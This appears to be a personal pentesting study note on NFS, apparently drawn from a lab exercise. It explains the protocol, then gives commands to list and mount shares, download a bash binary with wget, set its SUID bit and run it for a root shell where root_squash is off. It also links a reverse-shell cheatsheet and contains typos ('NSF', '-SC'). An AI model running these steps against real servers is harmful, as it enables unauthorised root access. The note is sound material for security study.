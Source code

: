 ## What is NSF
NFS stands for "**Network File System**" and allows a system to share directories and files with others over a network. By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

- **How does NFS work?**

	We don't need to understand the technical exchange in too much detail to be able to exploit NFS effectively- however if this is something that interests you, I would recommend this resource: [https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html](https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html)

	First, the client will request to mount a directory from a remote host on a local directory just the same way it can mount a physical device. The mount service will then act to connect to the relevant mount daemon using RPC.

	The server checks if the user has permission to mount whatever directory has been requested. It will then return a file handle which uniquely identifies each file and directory that is on the server.

	If someone wants to access a file using NFS, an RPC call is placed to NFSD (the NFS daemon) on the server. This call takes parameters such as:

	-    The file handle
	-    The name of the file to be accessed
	-    The user's, user ID
	-    The user's group ID  

	These are used in determining access rights to the specified file. This is what controls user permissions, I.E read and write of files.  

- **What runs NFS?**

	Using the NFS protocol, you can transfer files between computers running Windows and other non-Windows operating systems, such as Linux, MacOS or UNIX.

	A computer running Windows Server can act as an NFS file server for other non-Windows client computers. Likewise, NFS allows a Windows-based computer running Windows Server to access files stored on a non-Windows NFS server.

- **More Information:**

	Here are some resources that explain the technical implementation, and working of, NFS in more detail than I have covered here.

	[https://www.datto.com/library/what-is-nfs-file-share](https://www.datto.com/library/what-is-nfs-file-share)
	[http://nfs.sourceforge.net/](http://nfs.sourceforge.net/)
	[https://wiki.archlinux.org/index.php/NFS](https://wiki.archlinux.org/index.php/NFS)


## Find NSF Port
Nmap
```
nmap -sV -SC IP -p111
```

- Possible to find NSF on an other port

## Attack & Connection
- Mounting Vulnerable Shared Folder (NSF-COMMON)
```Terminal
sudo mount -t nfs IP:FOLDER /tmp/mount/ -nolock   (Connect to the shared file)

- /usr/sbin/showmount -e [IP]                     (List the NFS shares)
```

- mount             ---> Execute the mount command
- -t nfs               ---> Type of device to mount, then specify that it's NFS
- IP:share           ---> Target server IP and vulnerable share folder
- -nolock            ---> Specifies not to use NLM Locking

More information about NSF-COMMON ---> https://vitux.com/install-nfs-server-and-client-on-ubuntu/

- Exploitation (Set**SUID**)
```Terminal
Download Bash Script
- cp ~/Downloads/bash /DESTINATION FOLDER
- chmod +x bash && chmod +s bash
- ls -la bash (check file permission)
- ./bash -p (Run script with persistence (On SSH low privilege))
```

## More information
	**What is root_squash?**

	By default, on NFS shares- Root Squashing is enabled, and prevents anyone connecting to the NFS share from having root access to the NFS volume. Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges. Not what we want. However, if this is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system.

	**SUID**

	So, what are files with the SUID bit set? Essentially, this means that the file or files can be run with the permissions of the file(s) owner/group. In this case, as the super-user. We can leverage this to get a shell with these privileges!

	**Method**

	This sounds complicated, but really- provided you're familiar with how SUID files work, it's fairly easy to understand. We're able to upload files to the NFS share, and control the permissions of these files. We can set the permissions of whatever we upload, in this case a bash shell executable. We can then log in through SSH, as we did in the previous task- and execute this executable to gain a root shell!

	**The Executable**

	Due to compatibility reasons, we'll use a standard Ubuntu Server 18.04 bash executable, the same as the server's- as we know from our nmap scan. You can download it [here](https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash). If you want to download it via the command line, be careful not to download the github page instead of the raw script. You can use `wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash`.  

	**Mapped Out Pathway:**

	If this is still hard to follow, here's a step by step of the actions we're taking, and how they all tie together to allow us to gain a root shell:

	![[Pasted image 20220922212950.png]]

- Reverse Shell ---> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

